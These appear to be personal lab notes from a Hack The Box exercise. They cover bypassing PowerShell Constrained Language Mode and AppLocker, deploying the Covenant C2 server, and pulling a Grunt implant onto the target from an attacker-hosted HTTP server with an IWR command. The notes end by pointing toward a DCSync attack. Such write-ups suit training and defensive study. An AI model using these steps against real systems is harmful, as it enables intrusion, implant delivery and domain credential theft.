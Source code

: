 
```
 $ExecutionContext.SessionState.LanguageMode
```
![[Pasted image 20240411235342.png]]

```
Constrained Language Mode
```

So let's see how to bypass it to get the full access.

So if a group policy is restricting us from executing a program will simply bypass it using AppLocker bypass list.

https://github.com/api0cradle/UltimateAppLockerByPassList

![[Pasted image 20240412082454.png]]

Always keep in mind that in these situation these location are whitelisted means we might have write permissions in this.
```
C:\Windows\Temp
```


Will install a C2 framework (i.e. [Covenant](https://github.com/cobbr/Covenant))
Clone the repository
```
git clone --recurse-submodules https://github.com/cobbr/Covenant
```

```
cd Covenant/Covenant
```

```
 docker build -t covenant .
```

I don't have docker so we have to install it as well

```
sudo apt install docker.io
```

```
sudo apt install docker-compose
```

![[Pasted image 20240412091251.png]]

```
docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v $(pwd)/Data:/app/Data covenant --username singh
```

```
testing123
```

![[Pasted image 20240412101938.png]]

We have installed Convenant in no time with the help of docker.

These both things are virtually the same (i.e. Covenant is server aspects and elite is the client that connects to the server)

I tried installing Elite but it's deprecated Temporarily.

```
docker ps -a
```

```
docker rm covenant
```


![[Pasted image 20240429211001.png]]

Will go in Launchers and select Binary
![[Pasted image 20240429211101.png]]

Will click on generate
![[Pasted image 20240429211518.png]]

Will Login to the PS shell and will upload our luncher file and try to run it and see if we get a connection or not.

I simply hosted a python3 server and downloaded the file simply
```
 python3 -m http.server 8080
```
![[Pasted image 20240429212547.png]]

```
IWR -Uri http://10.10.16.20:8080/GruntHTTP.exe -OutFile pleasesub.exe
```
![[Pasted image 20240429212509.png]]

Grunt
```
help
```
![[Pasted image 20240429212708.png]]

We have different commands like Rubeus , Seat Belt
![[Pasted image 20240429212821.png]]

Will simply see the video as we already how to run bloodhound and see things as we are getting with our but learnt the method

![[Pasted image 20240501014332.png]]

![[Pasted image 20240501014433.png]]

As we have both the rights we can simply attempt DCSync attack.

```
MRLKY@HTB.LOCAL
```
